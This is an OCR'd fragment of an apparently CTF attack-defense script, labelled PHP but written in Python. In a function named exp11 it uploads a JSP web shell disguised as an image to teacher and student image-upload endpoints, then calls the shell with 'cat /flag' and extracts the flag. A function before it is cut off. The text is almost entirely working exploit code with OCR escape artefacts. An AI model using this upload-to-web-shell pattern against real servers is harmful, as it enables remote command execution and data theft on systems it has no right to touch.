 ```php
        flag \= grep\_flag(1,res.text)

        \# submit\_flag(flag)

    except Exception as e:

        print(f"{ip} attack failed!")

​

def exp11(ip):

    url1 \= "http://" + ip +"/upload\_teacherImg"

    url2 \= "http://" + ip +"/upload\_studentImg"

    flag\_url \= "http://"+ip+"/userImg/123.jsp"

    params \= {

        "i":"cat /flag"

    }

    data \= {

        "id":"admin"

    }

    files \= {"img": ("123.jsp",open("shell.jsp").read())}

    try:

        \# res = requests.get(url = url,params=params,timeout=timout)

        res \= requests.post(url \= url1, data\=data,files\=files,timeout\=timout)

        print(res.text)

        res2 \= requests.get(url \= flag\_url,params\=params,timeout\=timout)

        flag \= grep\_flag(1,res2.text)

        \# submit\_flag(flag)

    except Exception as e:

        print(f"{ip} attack failed!")

​

    try:

        \# res = requests.get(url = url,params=params,timeout=timout)

        res \= requests.post(url \= url2, data\=data,files\=files,timeout\=timout)

        \# print(res.text)

        res2 \= requests.get(url \= flag\_url,params\=params,timeout\=timout)

        flag \= grep\_flag(1,res2.text)
```